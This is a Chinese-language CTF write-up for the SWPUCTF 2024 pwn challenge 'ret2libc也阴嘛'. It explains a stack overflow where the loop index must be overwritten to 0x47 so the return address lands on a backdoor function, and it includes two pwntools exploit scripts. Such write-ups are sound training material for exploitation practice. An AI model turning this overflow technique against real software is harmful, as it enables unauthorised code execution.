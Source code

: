 # [SWPUCTF 2024 秋季新生赛]ret2libc也阴嘛？

![image-20250207181103358](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20250207181103358.png)

这里是一个常见的保护因此要看一下ida的反编译

![image-20250207181348535](./../images/image-20250207181348535.png)

这里发现我们的输入的数据是一个一个字节一个字节的进行读入并且进行循环写入到下一个位置中并且使用一个数组进行一个输入的

但是这里可以看出一个常见的栈溢出

并且在函数中发现后门

![image-20250207182149460](./../images/image-20250207182149460.png)

因此可以明确他是一个ret2text

所以我的exp

```python
from pwn import *
context.log_level='debug'
# io = remote("node6.anna.nssctf.cn",26003)
io = process("/home/fofa/trick")
offset = 0x40+8
shell = 0x04011E2


payload = cyclic(offset)+p64(shell)
#gdb.attach(io,'b *0x0401260\n')
io.sendline(payload)
# gdb.attach(io)
# pause()
io.interactive()
0x7ffdbe37722c
```

但是发现这个并不能调用后门

![image-20250207182924813](./../images/image-20250207182924813.png)

发现他i的数据被篡改了这里我们再去看一下ida

![image-20250207183048199](./../images/image-20250207183048199.png)

发现当我们写到return地址时我们同样也会篡改到**i**的值而我们从上面的代码中可以知道写入的位置和i的数值有这个关系因此我们要把后门函数精准的放到返回地址的位置因此我们要加一些东西

![image-20250207183840360](./../images/image-20250207183840360.png)

要把后面的后面写入到返回地址的位置

![image-20250207183919852](./../images/image-20250207183919852.png)

所以i的值要成为47

所以完整exp

```python
from pwn import *
context.log_level='debug'
# io = remote("node6.anna.nssctf.cn",26003)
io = process("/home/fofa/trick")
offset = 0x40-4
shell = 0x04011E2


payload = cyclic(offset)+p8(0x47)+p64(shell)
gdb.attach(io,'b *0x0401260\n')
io.sendline(payload)
# gdb.attach(io)
# pause()
io.interactive()
```

---

## 总结

要明白指针和循环中的参数和我们输入值的关系并且要确保后门函数写入到返回值中